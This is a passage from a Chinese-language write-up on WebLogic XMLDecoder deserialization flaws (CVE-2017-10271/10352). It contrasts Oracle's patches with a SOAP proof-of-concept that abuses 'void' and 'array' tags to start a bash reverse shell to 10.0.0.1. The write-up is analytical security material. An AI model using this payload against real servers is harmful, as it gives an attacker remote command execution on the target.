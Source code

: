 ##### 补丁
```
private void validate(InputStream is) {
      WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
      try {
         SAXParser parser = factory.newSAXParser();
         parser.parse(is, new DefaultHandler() {
            public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
               if(qName.equalsIgnoreCase("object")) {
                  throw new IllegalStateException("Invalid context type: object");
               }
            }
         });
      } catch (ParserConfigurationException var5) {
         throw new IllegalStateException("Parser Exception", var5);
      } catch (SAXException var6) {
         throw new IllegalStateException("Parser Exception", var6);
      } catch (IOException var7) {
         throw new IllegalStateException("Parser Exception", var7);
      }
   }
```
限制了object的使用

#### CVE-2017-10271&CVE-2017-10352
##### 漏洞原因
只限制了object。
未new, method, void，array等。
##### poc
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```
##### 补丁
```
private void validate(InputStream is) {
   WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
   try {
      SAXParser parser = factory.newSAXParser();
      parser.parse(is, new DefaultHandler() {
         private int overallarraylength = 0;
         public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
```